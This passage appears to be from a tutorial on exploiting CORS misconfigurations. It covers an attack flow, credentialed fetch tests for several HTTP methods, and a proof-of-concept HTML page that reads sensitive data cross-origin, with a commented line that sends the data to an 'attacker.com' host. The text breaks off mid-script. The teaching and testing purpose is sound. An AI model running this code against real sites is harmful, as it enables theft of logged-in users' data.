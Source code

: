 3. **Result:** Attacker can now reset the victim's password!

## Visual Example: The CORS Attack Flow

1. **Victim logs into legitimate site (bank.com)**
2. **Victim visits malicious site (while still logged into bank)**
3. **Malicious site makes request to bank.com**
4. **Bank sees the Origin and incorrectly trusts it**
5. **Bank sends sensitive data back to malicious site**
6. **Malicious site forwards data to attacker**

<br>

## Testing Different HTTP Methods

Some sites only have CORS vulnerabilities with specific HTTP methods:

```javascript
// Test GET method
fetch('https://target.com/api/data', {
  method: 'GET',
  credentials: 'include'
}).then(r => console.log('GET vulnerable'));

// Test POST method
fetch('https://target.com/api/data', {
  method: 'POST',
  credentials: 'include'
}).then(r => console.log('POST vulnerable'));

// Also try PUT, DELETE, etc.
```

<br>

## Creating a CORS Exploit Proof-of-Concept

Here's a full HTML page you can use to demonstrate the vulnerability:

```html
<!DOCTYPE html>
<html>
<head>
  <title>CORS Vulnerability Demo</title>
</head>
<body>
  <h1>CORS Vulnerability Test</h1>
  <button onclick="exploitCORS()">Click to Test</button>
  <div id="results"></div>

  <script>
    function exploitCORS() {
      document.getElementById('results').innerHTML = 'Testing...';
      
      fetch('https://vulnerable-site.com/api/sensitive-data', {
        credentials: 'include'
      })
      .then(response => response.text())
      .then(data => {
        document.getElementById('results').innerHTML = 
          '<strong>Vulnerable!</strong><br>Data retrieved: <pre>' + 
          data.substring(0, 200) + '...</pre>';
        
        // In a real attack, send to attacker's server
        // fetch('https://attacker.com/steal?data=' + encodeURIComponent(data));
```
